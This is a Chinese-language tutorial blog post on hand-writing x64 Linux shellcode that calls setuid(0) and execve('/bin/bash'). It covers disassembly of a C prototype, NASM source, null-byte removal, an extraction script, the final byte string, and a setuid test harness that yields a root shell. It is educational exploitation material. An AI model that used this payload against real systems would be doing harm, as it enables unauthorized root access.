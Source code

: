 ```yaml
---
layout: post
title: 'shellcode x64'
subtitle: 'shellcode编写'
tags: 安全 逆向 shellcode linux
---
```


### retsh.c

```C
// retsh.c

#include<unistd.h>

char* buff[] = {
    "/bin/bash"
};

void main(){
    setuid(0);
    execve("/bin/bash", buff, NULL);
}
```

```bash
rz$ gcc retsh.c -static -o retsh
rz$ sudo chown root.root retsh
rz$ sudo chmod u+s retsh
rz$ ./retsh
root# whoami
root
```

### 分析生成的文件

```bash
rz$ r2 retsh

> s main
> pdf
|   sym.main ();
|           0x00400b4d      55             push rbp
|           0x00400b4e      4889e5         mov rbp, rsp
|           0x00400b51      bf00000000     mov edi, 0
|           0x00400b56      e8957f0400     call sym.__setuid    # setuid
|           0x00400b5b      ba00000000     mov edx, 0
|           0x00400b60      488d3589852b.  lea rsi, obj.buff           ; 0x6b90f0
|           0x00400b67      488d3d561409.  lea rdi, str.bin_bash       ; 0x491fc4 ; "/bin/bash"
|           0x00400b6e      e84d7f0400     call sym.execve      # execve

> s sym.__setuid
> pdf
|   sym.__setuid (int arg1);
|           0x00448af0      4883ec38       sub rsp, 0x38               ; '8'
|           0x00448af4      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
|           0x00448afd      4889442428     mov qword [local_28h], rax
|           0x00448b02      31c0           xor eax, eax
|           0x00448b04      48833dc40427.  cmp qword [0x006b8fd0], 0
|       ,=< 0x00448b0c      752a           jne 0x448b38
|       |   0x00448b0e      b869000000     mov eax, 0x69               ; 'i' ; 105
|       |   0x00448b13      0f05           syscall

> s sym.execve
> pdf
|   sym.execve ();
|           0x00448ac0      b83b000000     mov eax, 0x3b               ; ';' ; 59
|           0x00448ac5      0f05           syscall
```

如上，编写相应的汇编代码

注：`/bin/bash`转换为16进制表示为`0x2f62696e2f62617368`，由于内存中是小端存储，将其反转为`0x687361622f6e69622f`，长度18，可以先将`0x68`压栈，在将`0x7361622f6e69622f`压栈，此时，`rsp`所指向的字符串为`/bin/bash`，将rdi指向此处即可。

```asm
; shell.asm

global _start

_start:

xor rdi, rdi
; setuid(0)
xor eax, eax
mov al, 0x69
syscall         ; setuid

xor rax, rax
mov al, 0x68
push rax
mov rax, 0x7361622f6e69622f
push rax
mov rdi, rsp    ; str.bin_bash; "/bin/bash"

xor rax, rax
push rax
mov rax, rsp
push rax        ; 此时rsp就是 "/bin/bash"地址的指针
mov rsi, rsp    ; obj.buff; {"/bin/bash"}

;xor rsi, rsi
xor edx, edx      ; edx

; execve("/bin/bash", {"/bin/bash"}, NULL) 
xor eax, eax
mov al, 0x3b
syscall         ; execve
```

编译链接

```bash
rz$ nasm -f elf64 shell.asm -o shell.o
rz$ ld shell.o -o shell
```

### 提取shellcode

```shell
# extract.sh

if [ $# != 1 ]; then
    echo "Usage: $1 obj.o"
else
    for i in `objdump -d $1 | grep "^[[:space:]]*[0-9a-f]\+:" | cut -f 2`; do
        echo -n \\x$i
    done
    echo
fi
```

在提取之前先观察shellcode，会发现很多00字符，需要进行修改过滤掉这些怀字符，如下：

- 修改前：
    ![修改前](/assets/img/md/2018-07-12-735435745.png)
- 修改后：
    ![修改后](/assets/img/md/2018-07-12-4106904479.png)

之后提取shellcode:

`
\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05
`

### 验证

为了验证shellcode可以编写一个简单的c程序：

```C
#include<stdio.h>

char* shellcode = "\x48\x31\xff\x31\xc0\xb0\x69\x0f\x05"
"\x48\x31\xc0\xb0\x68\x50\x48\xb8\x2f\x62\x69"
"\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x48\x31\xc0\x50\x48"
"\x89\xe0\x50\x48\x89\xe6\x31\xd2\x31\xc0\xb0\x3b\x0f\x05";

void main(){
    puts("shellcode ～～～");
    ((void (*)(void))shellcode)(); //将shellcode当作函数执行
}
```

```bash
rz$ gcc shell.c -o shell.out
rz$ sudo chown root.root shell.out
rz$ sudo chmow u+s shell.out
rz$ ./shell.out
root# whoami
root
```

[代码](https://github.com/rzte/the-art-of-exploitation.git)
